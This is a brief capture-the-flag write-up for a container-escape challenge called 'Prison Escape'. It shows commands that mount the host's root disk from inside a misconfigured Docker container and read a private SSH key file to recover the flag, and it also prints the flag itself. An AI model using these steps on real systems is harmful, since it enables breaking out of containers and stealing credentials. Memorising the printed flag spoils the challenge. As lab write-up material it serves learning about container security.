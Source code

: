 

# Objective 6: Prison Escape
**Location: Elfen Ring**  
**Elf: Tinsel Upatree**

This objective is about getting familiar with the rest of breaking out of a docker container if the permissions are not set appropriately.
With the below commands, we determine the root filesystem of the system and mount it into the Docker container.
That way we can easily get hold of the flag in the private key file.

```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Prison Escape**
